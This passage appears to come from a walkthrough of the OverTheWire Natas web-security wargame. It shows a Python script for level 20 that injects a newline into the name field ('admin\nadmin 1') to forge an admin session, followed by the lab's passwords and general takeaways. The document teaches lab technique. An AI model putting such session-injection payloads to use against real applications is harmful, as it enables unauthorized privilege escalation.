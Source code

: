 3. **Automating the Process:**
    We come up with a python script to set the user name to `admin\nadmin 1` and get the password.
    ```python
    import requests

    target = "http://natas20.natas.labs.overthewire.org"
    auth = ("natas20", "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw")

    params = {"name": "admin\nadmin 1", "debug": ""}  # This is the key part
    cookies = {}

    r = requests.get(target, auth=auth, params=params, cookies=cookies)

    # Retrieve PHPSESSID if it exists in response cookies
    phpsessid = r.cookies.get("PHPSESSID", None)
    print(r.text)

    if phpsessid:
        print("#")
        params = {"debug": ""}
        cookies = {"PHPSESSID": phpsessid}

        # Second request using the same PHPSESSID
        r = requests.get(target, auth=auth, params=params, cookies=cookies)
        print(r.text)
    else:
        print("PHPSESSID cookie not found in the first request response.")
    ```

#### Password: `BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`

![Level 20 Progress](images/natas20.png)
---

## Key Takeaways

- Mastery of foundational web security concepts like SQL injection, command injection, and session management is crucial for understanding how attackers exploit web applications.
- By approaching each Natas level incrementally, users gain hands-on experience in analyzing source code, identifying vulnerabilities, and implementing automation to streamline attacks.
- Each solution highlights the importance of creativity and careful observation in bypassing security measures, especially when direct feedback is unavailable, as in blind SQL injection challenges.

---